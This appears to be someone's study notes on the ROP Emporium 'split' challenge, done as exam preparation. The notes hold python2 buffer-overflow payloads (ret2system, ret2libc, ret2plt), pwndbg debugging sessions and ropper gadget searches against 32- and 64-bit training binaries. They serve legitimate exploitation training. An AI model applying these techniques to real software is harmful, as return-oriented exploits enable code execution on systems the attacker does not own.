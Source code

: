 
python2 -c "print('A' * 44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08')" | ./split32 (not returning to libc/plt but returning to a part of a function which calls system)

python2 -c "print('A' * 44 + '\x00\xdd\xdf\xf7' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32 (ret2libc make sure disable aslr)

python2 -c "print('A' * 44 + '\xe0\x83\x04\x08' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32 (ret2plt no need disable aslr :))

┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ gdb-pwndbg split32
Reading symbols from split32...
(No debugging symbols found in split32)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> x system
0x80483e0 <system@plt>:	0xa01825ff
pwndbg> r
Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split32 
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> ^C
Program received signal SIGINT, Interrupt.
0xf7fc9559 in __kernel_vsyscall ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────
 EAX  0xfffffe00
 EBX  0x0
 ECX  0xffffcde0 ◂— 0x0
 EDX  0x60
 EDI  0x8048430 (_start) ◂— xor    ebp, ebp
 ESI  0xf7fa4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0xffffce08 —▸ 0xffffce18 ◂— 0x0
 ESP  0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
 EIP  0xf7fc9559 (__kernel_vsyscall+9) ◂— pop    ebp
────────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────────
 ► 0xf7fc9559 <__kernel_vsyscall+9>     pop    ebp
   0xf7fc955a <__kernel_vsyscall+10>    pop    edx
   0xf7fc955b <__kernel_vsyscall+11>    pop    ecx
   0xf7fc955c <__kernel_vsyscall+12>    ret    
    ↓
   0xf7eaacc3 <read+51>                 cmp    eax, 0xfffff000
   0xf7eaacc8 <read+56>                 ja     read+144                    <read+144>
    ↓
   0xf7eaad20 <read+144>                mov    edx, dword ptr [esi - 0x110]
   0xf7eaad26 <read+150>                neg    eax
   0xf7eaad28 <read+152>                mov    dword ptr gs:[edx], eax
   0xf7eaad2b <read+155>                mov    eax, 0xffffffff
   0xf7eaad30 <read+160>                jmp    read+58                    <read+58>
────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
01:0004│     0xffffcda4 ◂— 0x60 /* '`' */
02:0008│     0xffffcda8 —▸ 0xffffcde0 ◂— 0x0
03:000c│     0xffffcdac —▸ 0xf7eaacc3 (read+51) —▸ 0xfff0003d ◂— 0xfff0003d
04:0010│     0xffffcdb0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
05:0014│     0xffffcdb4 —▸ 0xf7fe1ce0 (_dl_runtime_resolve+16) ◂— pop    edx
06:0018│     0xffffcdb8 ◂— 0xffffffff
07:001c│     0xffffcdbc —▸ 0xf7eaac90 (read) ◂— push   edi
──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
 ► f 0 0xf7fc9559 __kernel_vsyscall+9
   f 1 0xf7eaacc3 read+51
   f 2 0x80485f6 pwnme+73
   f 3 0x8048590 main+74
   f 4 0xf7dd7905 __libc_start_main+229
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x system
0xf7dfdd00 <__libc_system>:	0x100468e8
pwndbg> 






















┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret; 

                                                                                                            
┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split (function)

difference between 64bit and 32bit architecture: system grabs arguments off rdi

python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\xd8\xe1\xf7\xff\x7f\x00\x00')" | ./split (libc)

python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\x05\x40\x00\x00\x00\x00\x00')" | ./split (plt)


┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret; 

                                                                                                            
┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split    
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
zsh: done                python2 -c  | 
zsh: segmentation fault  ./split
                                                                                                            
┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
└─$ gdb-pwndbg split  
Reading symbols from split...
(No debugging symbols found in split)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret    
End of assembler dump.
pwndbg> search "/bin/cat"
search: The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split 
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> ^C
Program received signal SIGINT, Interrupt.
0x00007ffff7ec255e in __GI___libc_read (fd=0, buf=0x7fffffffdc10, nbytes=96) at ../sysdeps/unix/sysv/linux/read.c:26
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────
 RAX  0xfffffffffffffe00
 RBX  0x400760 (__libc_csu_init) ◂— push   r15
 RCX  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x60
 RDI  0x0
 RSI  0x7fffffffdc10 ◂— 0x0
 R8   0x2c
 R9   0x7ffff7fdc1f0 (_dl_fini) ◂— push   rbp
 R10  0xfffffffffffffb87
 R11  0x246
 R12  0x4005b0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
 RSP  0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
 RIP  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
─────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────
 ► 0x7ffff7ec255e <read+14>     cmp    rax, -0x1000
   0x7ffff7ec2564 <read+20>     ja     read+112                <read+112>
    ↓
   0x7ffff7ec25c0 <read+112>    mov    rdx, qword ptr [rip + 0xdf889]
   0x7ffff7ec25c7 <read+119>    neg    eax
   0x7ffff7ec25c9 <read+121>    mov    dword ptr fs:[rdx], eax
   0x7ffff7ec25cc <read+124>    mov    rax, -1
   0x7ffff7ec25d3 <read+131>    ret    
 
   0x7ffff7ec25d4 <read+132>    nop    dword ptr [rax]
   0x7ffff7ec25d8 <read+136>    mov    rdx, qword ptr [rip + 0xdf871]
   0x7ffff7ec25df <read+143>    neg    eax
   0x7ffff7ec25e1 <read+145>    mov    dword ptr fs:[rdx], eax
─────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
01:0008│ rsi 0x7fffffffdc10 ◂— 0x0
... ↓        3 skipped
05:0028│ rbp 0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
06:0030│     0x7fffffffdc38 —▸ 0x4006d7 (main+64) ◂— mov    edi, 0x400806
07:0038│     0x7fffffffdc40 ◂— 0x0
───────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────
 ► f 0   0x7ffff7ec255e read+14
   f 1         0x400735 pwnme+77
   f 2         0x4006d7 main+64
   f 3   0x7ffff7dfb7fd __libc_start_main+205
────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> search "/bin/cat"
split           0x601060 '/bin/cat flag.txt'
pwndbg> 

